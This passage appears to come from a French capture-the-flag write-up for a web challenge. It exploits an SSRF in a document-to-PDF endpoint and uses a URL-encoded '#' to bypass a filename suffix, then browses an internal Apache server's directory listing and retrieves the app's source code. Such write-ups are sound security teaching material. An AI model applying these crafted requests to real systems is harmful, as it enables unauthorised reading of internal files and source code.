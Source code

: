 On essaie d'ajouter le `.disclosed`  à l'url `/api/document?location=/.disclosed` et on a un pdf généré d'une page forbidden d'Apache

```
Forbidden 

You don't have permission to access this resource. 
_______________________________________________________
Apache/2.4.55 (Ubuntu) Server at files.internal Port 80
```

ça ressemble à un début de SSRF mais le fait d'ajouter `.disclosed` ne plait pas au serveur Apache (surement une règle sur les fichiers commençant par un point). On peut penser que la requête qui est transmise au serveur ressemble probablement à :

```
http://files.internal/.disclosed
```

On teste en ajoutant un `#` avant le `.disclosed` pour avoir `/#.disclosed` et ainsi arriver sur la racine du serveur web (bien penser à encoder tout ça)

```
http://<chall>/api/document?location=/%23.disclosed
```

![Pasted image 20230726084352](https://github.com/pun-private/writeup-barbhack2023-web/assets/27222105/4207c9a9-53e9-4763-8254-8db3ce807e31)

On arrive bien sur la racine du serveur web et par chance y a le directory listing. Le premier dossier `api_0aca881eb4_prod_v42_src/` contient d'ailleurs le code source de l'appli.

```
api_0aca881eb4_prod_v42_src/
|__ app.py
|__ authz/
	|__ __init__.py
	|__ jwt.py
|__ jwt_keys/
|__ pdf/
	|__ __init__.py
	|__ html2pdf.py
```

On commence par récupérer le code source de app.py

```
/api/document?location=/api_0aca881eb4_prod_v42_src/app.py%23.disclosed
```

![Pasted image 20230726084921](https://github.com/pun-private/writeup-barbhack2023-web/assets/27222105/548b952d-ee6a-4ca0-94c6-3e3c4af8a259)

Le problème est que dans le pdf, le code n'est pas indenté... Soit on le fait à la mano en guessant un peu, ou on remarque la présence du paramètre `raw` qui retourne le texte brut sans générer de PDF !

```
if (request.args.get("raw") is not None): return content.text
```
